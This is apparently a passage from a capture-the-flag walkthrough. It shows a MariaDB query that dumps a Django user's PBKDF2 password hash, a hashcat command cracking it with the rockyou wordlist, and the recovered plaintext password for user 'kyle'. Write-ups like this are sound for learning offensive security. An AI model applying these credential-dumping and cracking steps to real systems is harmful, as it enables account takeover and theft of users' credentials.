 ```bash
MariaDB [dev]> show columns from auth_user;
+--------------+--------------+------+-----+---------+----------------+
| Field        | Type         | Null | Key | Default | Extra          |
+--------------+--------------+------+-----+---------+----------------+
| id           | int(11)      | NO   | PRI | NULL    | auto_increment |
| password     | varchar(128) | NO   |     | NULL    |                |
| last_login   | datetime(6)  | YES  |     | NULL    |                |
| is_superuser | tinyint(1)   | NO   |     | NULL    |                |
| username     | varchar(150) | NO   | UNI | NULL    |                |
| first_name   | varchar(150) | NO   |     | NULL    |                |
| last_name    | varchar(150) | NO   |     | NULL    |                |
| email        | varchar(254) | NO   |     | NULL    |                |
| is_staff     | tinyint(1)   | NO   |     | NULL    |                |
| is_active    | tinyint(1)   | NO   |     | NULL    |                |
| date_joined  | datetime(6)  | NO   |     | NULL    |                |
+--------------+--------------+------+-----+---------+----------------+
11 rows in set (0.002 sec)

MariaDB [dev]> select username,password from auth_user;
+----------+------------------------------------------------------------------------------------------+
| username | password                                                                                 |
+----------+------------------------------------------------------------------------------------------+
| kyle     | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= |
+----------+------------------------------------------------------------------------------------------+
1 row in set (0.001 sec)

```

Searching in documentation, noticed that this hash is from format `10000 | Django (PBKDF2-SHA256)`. Ran hashcat and found password **marcoantonio** for user `kyle`

```bash
$ hashcat -m 10000 users --wordlist /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-2673 v3 @ 2.40GHz, 5845/5909 MB (2048 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB
```